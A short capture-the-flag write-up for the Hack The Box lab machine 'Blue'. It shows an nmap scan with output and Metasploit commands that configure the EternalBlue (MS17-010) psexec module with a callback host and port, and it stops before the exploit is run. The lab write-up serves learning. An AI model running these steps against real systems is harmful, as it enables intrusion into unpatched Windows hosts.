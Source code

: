 #	BLUE (10.10.10.40 -windows box)
##	Writeup by Hexachroma

###	This room features eternalblue or MS17-010

1. nmap -sC -sV -oN nmap/init blue.htb -v
```
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
> has SMB installed (green flag for eternalblue)

2. Exploiting EternalBlue with metasploit
>	`msfconsole -q`
>	enter `use windows/smb/ms17_010_psexec`
> 	enter `set RHOST 10.10.10.40`
>	enter `set LHOST tun0`
>	enter `set LPORT xxxx`
